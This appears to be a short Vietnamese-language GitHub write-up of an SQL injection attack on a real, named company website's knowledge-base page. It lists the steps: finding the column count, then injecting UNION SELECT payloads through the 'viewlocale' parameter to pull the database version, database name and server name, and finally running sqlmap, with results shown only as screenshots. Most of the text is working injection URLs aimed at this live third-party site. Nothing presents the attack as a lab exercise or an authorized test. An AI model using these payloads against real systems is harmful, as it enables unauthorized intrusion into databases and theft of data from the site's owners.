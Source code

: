 # TỔNG QUAN # 

Kiểm tra trên web "Caldigit" `https://archive.caldigit.com/kb/index.asp?KBID=1&viewlocale=1`

![image](https://github.com/user-attachments/assets/ece2a38c-25a3-4e39-924d-85c05bd67fb9)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/69fdac4a-fb12-4d86-b02a-f75429732a28)

![image](https://github.com/user-attachments/assets/06b007b9-fe05-4313-979d-94697f50b1cc)

## Kiểm tra database, version, user 

`https://archive.caldigit.com/kb/index.asp?KBID=1&viewlocale=-1+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,@@version,14`

![image](https://github.com/user-attachments/assets/f4eb769c-a3ba-4643-9926-f0bad96b0331)

`https://archive.caldigit.com/kb/index.asp?KBID=1&viewlocale=-1+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,db_name(),14`

![image](https://github.com/user-attachments/assets/953241ba-a329-4eb9-8b4e-58ae4027aca9)

`https://archive.caldigit.com/kb/index.asp?KBID=1&viewlocale=-1+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,@@SERVERNAME,14`

![image](https://github.com/user-attachments/assets/c9e0f215-04f7-4956-9bad-f5d9c29a2475)

## Sử dụng `sqlmap`

![image](https://github.com/user-attachments/assets/ff1a0c80-9f64-4730-b856-9cd0c08a970f)

![image](https://github.com/user-attachments/assets/5de14fc1-7a05-452c-99c5-674a90faea5e)


